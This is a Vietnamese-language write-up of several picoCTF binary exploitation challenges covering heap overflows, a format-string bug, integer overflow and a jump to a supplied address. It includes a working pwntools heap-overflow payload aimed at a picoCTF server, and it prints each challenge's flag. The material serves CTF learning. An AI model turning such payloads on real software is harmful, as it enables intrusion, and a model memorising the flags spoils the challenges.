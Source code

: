 # heap 1
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/439?category=6&difficulty=2&page=1)
## Solution
- Bài này giống bài [heap 0](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/easy/writeup.md), tuy nhiên có sự khác biệt ở chỗ biến `safe_var` phải là chuỗi `pico` thì ta mới thu được flag
- Thực hiện `nc tethys.picoctf.net 55200`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-1.png)
## Flag
```picoCTF{starting_to_get_the_hang_9e9243f9}```
# heap 2
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/435?category=6&difficulty=2&page=1)
## Solution
- Đọc hàm `main` của file `chall.c`, ta vẫn thấy motip giống nhau đều là nhập `buffer` để làm tràn số, tuy nhiên bài này khó ở chỗ là chúng ta phải hiểu hàm `check_win`
```C
void check_win() { ((void (*)())*(int*)x)(); }
```
- Search chatgpt, tôi biết được rằng hàm này cho phép thực thi hàm `win` thông qua địa chỉ được lưu trong `x` hay nói cách khác `x` chính là địa chỉ của hàm `win`
-> Chúng ta phải đi tìm địa chỉ hàm `win`
- Sử dụng câu lệnh `objdump -D chall | grep win` ta thu được địa chỉ hàm win là `00000000004011a0`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-2.png)
- Chúng ta phải chuyển địa chỉ hàm `win` sang `little-endian` để tiến hành viết payload. Lý do phải chuyển sang `little-endian` là vì:
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-3.png)
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-4.png)
- Viết payload để lấy flag:
```Python
from pwn import *

p = remote("mimas.picoctf.net", 51605)

payload = b'2'
p.sendlineafter(b"Enter your choice: ", payload)
payload = b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xa0\x11\x40\x00\x00\x00\x00\x00'
p.sendlineafter(b"Data for buffer: ", payload)
payload = b'4'
p.sendlineafter(b"Enter your choice: ", payload)

p.interactive()
```
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-5.png)
## Flag
```picoCTF{and_down_the_road_we_go_91218226}```
# format string 1
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/434?category=6&difficulty=2&page=1)
## Solution
- Đọc qua file code `chall.c`, ta thấy bug ở dòng 36
```C
printf(buf);
```
- Đây là lỗ hổng `format string` khi in `buf` không đúng định dạng, dẫn tới việc có thể khai thác lỗ hổng thông qua dòng code đó
- Tiến hành `netcat` tới server, ta thu được chuỗi `hex`
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-6.png)
- Lấy đoạn `hex` sau `(nil)`, tiến hành loại bỏ những đoạn `hex` không có ý nghĩa và viết code thu được flag
```Python
hex = ["7b4654436f636970",
       "355f31346d316e34",
       "3478345f33317937",
       "35365f673431665f",
       "7d313464303935",]
print((bytes.fromhex(hex[0])[::-1] +
       bytes.fromhex(hex[1])[::-1] +
       bytes.fromhex(hex[2])[::-1] +
       bytes.fromhex(hex[3])[::-1] +
       bytes.fromhex(hex[4])[::-1]).decode())
```
## Flag
```picoCTF{4n1m41_57y13_4x4_f14g_65590d41}```
# two-sum
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/382?category=6&difficulty=2&page=1)
## Solution
- Đọc file code `flag.c`, ta thấy rằng để truy cập vào file `flag.txt` ta phải nhập 1 trong 2 số `num1` hoặc `num2` lớn hơn 0 và phải thỏa mãn tổng 2 số phải nhỏ hơn 0
- Nhận thấy `num1` và `num2` là kiểu dữ liệu `int` nên chúng ta có thể khai thác lỗ hổng tràn số thông qua kiểu dữ liệu
- Tiến hành `netcat` tới server, ta thu được flag
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-7.png)
## Flag
```picoCTF{Tw0_Sum_Integer_Bu773R_0v3rfl0w_ccd078bd}```
# Picker IV
## Challenge
[link challenge](https://play.picoctf.org/practice/challenge/403?category=6&difficulty=2&page=1)
## Solution
- Để lấy được flag, ta phải tìm địa chỉ hàm `win` và nhập địa chỉ vào biến `val`
```C
printf("Enter the address in hex to jump to, excluding '0x': ");
scanf("%x", &val);
printf("You input 0x%x\n", val);
void (*foo)(void) = (void (*)())val;
foo();
```
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-8.png)
## Flag
```picoCTF{n3v3r_jump_t0_u53r_5uppl13d_4ddr35535_01672a61}```
# buffer overflow 0
## Challenge
[link challenge]()
## Solution
- Ta thấy buf1 có kích thước tối đa là 100 nên ta sẽ nhập 101 kí tự để xảy ra hiện tượng `SIGSEGV` từ đó hàm `sigsegv_handler` được thực hiện
![alt text](https://github.com/nhh9905/CTF/blob/main/picoCTF/Binary%20Exploitation/medium/image-9.png)
## Flag
```picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}```